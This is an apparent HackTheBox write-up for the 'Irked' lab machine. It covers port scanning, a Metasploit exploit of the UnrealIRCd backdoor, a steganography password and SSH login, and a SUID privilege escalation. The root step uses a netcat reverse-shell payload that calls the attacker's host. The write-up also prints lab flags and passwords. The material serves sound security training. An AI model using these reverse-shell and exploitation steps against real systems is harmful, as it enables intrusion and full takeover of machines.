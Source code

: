 ```yaml
---
layout: default
title: "HTB Irked"
description: "10.10.10.117 | 20 pts"
header-img: "boxes/screenshots/20_irked/irked.png"
tags: [hackthebox, htb, boot2root, writeup, linux, ircd, irc]
---
```


# HTB Irked (10.10.10.117) MACHINE WRITE-UP

### TABLE OF CONTENTS

* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : PRIVILEGE ESCALATION (djmardov -&gt; root)](#part-5--privilege-escalation-djmardov---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.117

  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  111/tcp   open  rpcbind
  6697/tcp  open  ircs-u
  8000/tcp  open  http-alt
  8067/tcp  open  infi-async
  46040/tcp open  unknown
  65534/tcp open  unknown

$ nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117

  PORT      STATE  SERVICE     VERSION
  22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  | ssh-hostkey: 
  |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
  |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
  |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
  |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
  80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: Apache/2.4.10 (Debian)
  |_http-title: Site doesn't have a title (text/html).
  111/tcp   open   rpcbind     2-4 (RPC #100000)
  | rpcinfo: 
  |   program version   port/proto  service
  |   100000  2,3,4        111/tcp  rpcbind
  |   100000  2,3,4        111/udp  rpcbind
  |   100024  1          35800/tcp  status
  |_  100024  1          56850/udp  status
  6697/tcp  open   ircs-u?
  |_irc-info: Unable to open connection
  8000/tcp  closed http-alt
  8067/tcp  open   infi-async?
  |_irc-info: Unable to open connection
  46040/tcp closed unknown
  65534/tcp open   unknown
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.117`__: 

  ![Landing Page](./screenshots/20_irked/80_irked.png)

- Page Source:
  ```html
  <img src=irked.jpg>
  <br>
  <b><center>IRC is almost working!</b></center>
  ```
  __Notes__:
  - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
  - The pages also only contains an image (__*irked.jpg*__)
  - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

---

## PART 3 : EXPLOITATION

1. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     $ msfconsole
     
     $ use exploit/unix/irc/unreal_ircd_3281_backdoor

     $ show options

       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS                   yes       The target address range or CIDR identifier
       RPORT   6667             yes       The target port (TCP)

     $ set RHOSTS 10.10.10.117
     $ set RPORT 6697
     $ run

       [*] Started reverse TCP double handler on 10.10.15.122:4444 
       [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
           :irked.htb NOTICE AUTH :*** Looking up your hostname...
       [*] 10.10.10.117:6697 - Sending backdoor command...
       [*] Accepted the first client connection...
       [*] Accepted the second client connection...
       [*] Command: echo 4JezGWGL0WskDMqt;
       [*] Writing to socket A
       [*] Writing to socket B
       [*] Reading from sockets...
       [*] Reading from socket A
       [*] A: "4JezGWGL0WskDMqt\r\n"
       [*] Matching...
       [*] B is input...
       [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...

     ```
   - While inside the reverse shell:
     ```console
     $ id

       uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     $ python -c 'import pty; pty.spawn("/bin/bash")'

     $ cat /etc/passwd | grep bash

       root:x:0:0:root:/root:/bin/bash
       djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     $ cd /home/djmardov
     $ cd Documents
     $ ls -lah

       drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
       drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
       -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
       -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     $ cat .backup

       Super elite steg backup pw
       UPupDOWNdownLRlrBAbaSSss
     ```

   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ from the http service

2. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/20_irked/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```

---

## PART 4 : GENERATE USER SHELL

- __`ssh`__:
  ```console
  $ ssh -l djmardov 10.10.10.117
  $ djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG

  $ cat ~/Documents/user.txt

    4a66a78b12dc0e661a59d3f5c0267a8e

  ```

---

## PART 5 : PRIVILEGE ESCALATION (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   $ find / -uid 0 -perm -4000 -type f 2>/dev/null

     ...omitted...
     /usr/bin/viewuser
     ...omitted...

   $ /usr/bin/viewuser
   
     This application is being devleoped to set and test user permissions
     It is still being actively developed
     (unknown) :0           2019-04-27 13:17 (:0)
     djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
     sh: 1: /tmp/listusers: not found

   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file does not yet exist in the system
     - __*/tmp/listusers*__ will be run as root no matter who owns it
>
2. Create payload:
   ```console
   $ echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
3. Establish __root__ shell:
   1. Local terminal:
      ```console
      $ nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      $ /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      # id 

        uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      # find / -name root.txt

        /root/root.txt

      # cat /root/root.txt

        8d8e9e8be64654b6dccc3bff4522daf3
      ```
